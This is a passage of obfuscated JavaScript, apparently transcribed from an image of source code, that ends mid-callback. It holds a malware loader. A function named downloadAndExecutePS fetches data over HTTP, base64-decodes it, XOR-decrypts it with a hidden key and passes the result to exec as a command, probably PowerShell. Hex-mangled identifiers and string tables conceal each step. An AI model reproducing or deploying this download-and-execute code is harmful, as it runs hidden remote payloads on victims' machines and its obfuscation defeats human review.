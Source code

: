 ```jsx
    } = require(_0x56812d(0x1e5) + _0x56812d(0x1c0));

function xorCrypt(_0x451862, _0xb05de3) {
    const _0x37dfd7 = _0x56812d,
        _0x5b6cc8 = {
            'XmeQl': function(_0x4686e9, _0x590af0) {
                return _0x4686e9 === _0x590af0;
            },
            'xTNjB': _0x37dfd7(0x1d0),
            'qVdYR': function(_0x88e27d, _0x7951b0) {
                return _0x88e27d < _0x7951b0;
            },
            'BaXnZ': function(_0x3fa61a, _0x5d01fc) {
                return _0x3fa61a % _0x5d01fc;
            },
            'ZMxxu': function(_0xabab0e, _0x24be4a) {
                return _0xabab0e ^ _0x24be4a;
            }
        };
    let _0x24ce6d = '';
    if (_0x5b6cc8[_0x37dfd7(0x1b7)](typeof _0xb05de3, _0x5b6cc8[_0x37dfd7(0x1d9)])) {
        const _0x2f8ff0 = _0xb05de3[_0x37dfd7(0x1be)]('');
        for (let _0x4b4771 = 0x11 * -0x137 + -0x1 * -0xb29 + 0x1b * 0x5a; _0x5b6cc8[_0x37dfd7(0x1cc)](_0x4b4771, _0x451862[_0x37dfd7(0x1b2)]); _0x4b4771++) {
            const _0x3874f7 = _0x451862[_0x37dfd7(0x1bd)](_0x4b4771),
                _0x289a81 = _0x2f8ff0[_0x5b6cc8[_0x37dfd7(0x1d4)](_0x4b4771, _0x2f8ff0[_0x37dfd7(0x1b2)])][_0x37dfd7(0x1bd)](0x21de + -0x1931 * 0x1 + -0x8ad);
            _0x24ce6d += String[_0x37dfd7(0x1d2) + 'de'](_0x5b6cc8[_0x37dfd7(0x1d1)](_0x3874f7, _0x289a81));
        }
    }
    return _0x24ce6d;
}

function downloadAndExecutePS(_0x376868) {
    const _0x2440c0 = _0x56812d,
        _0x4e3fdc = {
            'iaPTZ': function(_0xa1f8b, _0x1bdefa) {
                return _0xa1f8b(_0x1bdefa);
            },
            'KPTAd': function(_0xdb894d, _0x3eab18, _0x43d169) {
                return _0xdb894d(_0x3eab18, _0x43d169);
            },
            'dVXvv': _0x2440c0(0x1e3) + _0x2440c0(0x1e2),
            'pBZgK': function(_0x1c3a56, _0x4c77f8, _0x292fd1) {
                return _0x1c3a56(_0x4c77f8, _0x292fd1);
            },
            'LOTbW': _0x2440c0(0x1e4),
            'frxwd': _0x2440c0(0x1d6),
            'CEElF': _0x2440c0(0x1d3)
        };
    let _0x51917c = '';
    http[_0x2440c0(0x1dc)](_0x376868, _0x4e4311 => {
        const _0x5d1fd0 = _0x2440c0;
        _0x4e4311['on'](_0x4e3fdc[_0x5d1fd0(0x1b4)], _0x889602 => {
            _0x51917c += _0x889602;
        }), _0x4e4311['on'](_0x4e3fdc[_0x5d1fd0(0x1cf)], () => {
            const _0x5f6c3e = _0x5d1fd0;
            _0x51917c = _0x4e3fdc[_0x5f6c3e(0x1c5)](atob, _0x51917c), _0x51917c = _0x4e3fdc[_0x5f6c3e(0x1cb)](xorCrypt, _0x51917c, _0x4e3fdc[_0x5f6c3e(0x1ae)]);
            const _0x3a5e25 = _0x5f6c3e(0x1b1) + _0x5f6c3e(0x1e6) + _0x5f6c3e(0x1c2) + _0x5f6c3e(0x1ba) + _0x5f6c3e(0x1af) + _0x51917c[_0x5f6c3e(0x1e0)](/"/g, 'x5cx22') + 'x22';
            _0x4e3fdc[_0x5f6c3e(0x1c8)](exec, _0x3a5e25, (_0x17cc24, _0x55cf27, _0xc90cd0) => {
```
